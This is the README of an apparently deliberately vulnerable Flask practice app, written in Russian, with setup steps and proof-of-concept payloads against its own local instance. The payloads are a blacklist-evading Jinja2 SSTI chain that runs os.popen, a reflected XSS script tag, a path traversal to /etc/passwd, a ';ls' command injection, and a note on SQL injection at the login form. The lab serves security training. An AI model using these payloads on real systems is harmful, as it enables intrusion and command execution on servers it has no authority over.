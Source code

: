 # vuln-app
#Уязвимая версия приложения

### Инструкция по сборке и запуску приложения

> - git clone "текущий репозиторий"
> - cd app
> - python __init__.py
> - flask приложение будет запущено по адресу http://127.0.0.1:8089

![image](https://github.com/medarov411/vuln-app/assets/60567375/302c807a-5503-411e-a291-bbe552f247ec)



### Proof of Concept

SSTI:

> url - http://127.0.0.1:8089/contact. Контактная форма, с одним полем ввода.

> Настроил блеклист для ssti, чтоб пейлоад был поинтересней. blacklist = [".","[","]","_","join","init","flag"]

> Конечный пейлоад: {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}

> ![image](https://github.com/medarov411/vuln-app/assets/60567375/0635d79b-576c-4515-8675-169c49209763)

<p>&nbsp;</p>

XSS(reflected):
> xss эксплуатируется там же, где и ssti - http://127.0.0.1:8089/contact

> http://127.0.0.1:8089/contact?email=<script>alert(1)</script>

> ![image](https://github.com/medarov411/vuln-app/assets/60567375/0b6d6749-0813-4635-aaf4-69384d24f5f8)

<p>&nbsp;</p>

Path Traversal:
> кнопка Read Policy на главной странице "http://127.0.0.1:8089/" ведет на url "http://127.0.0.1:8089/view_file?filename=15020.pdf"

> пейлоад:http://127.0.0.1:8089/view_file?filename=../../../../../etc/passwd

> ![image](https://github.com/medarov411/vuln-app/assets/60567375/2b8cf974-f629-443f-b30c-5925e08defb1)

<p>&nbsp;</p>

OS Command injection:
> на сайте реализовано подобие ping сервиса. Url - http://127.0.0.1:8089/ping

>пейлоад: 127.0.0.1;ls

>![image](https://github.com/medarov411/vuln-app/assets/60567375/303665c2-83d6-41ba-8fd2-5706ad0efa01)

<p>&nbsp;</p>

SQLI:
> форма авторизации в админ панель подвержена sql инъекциям. url - http://127.0.0.1:8089/login

>в базе данных есть два юзера - admin, wiener

>При успешной авторизации, происходит редирект на /admin-panel?user={username}

>При не правильных данных: Login Failed
>![image](https://github.com/medarov411/vuln-app/assets/60567375/486498d8-1a5b-4fa2-a2de-7922159825b4)

### Дополнительные комментарии
> От себя решил добавить SSTI с фильтрацией, все таки это flask. Не добавить в него ssti, было бы неуважительно :)



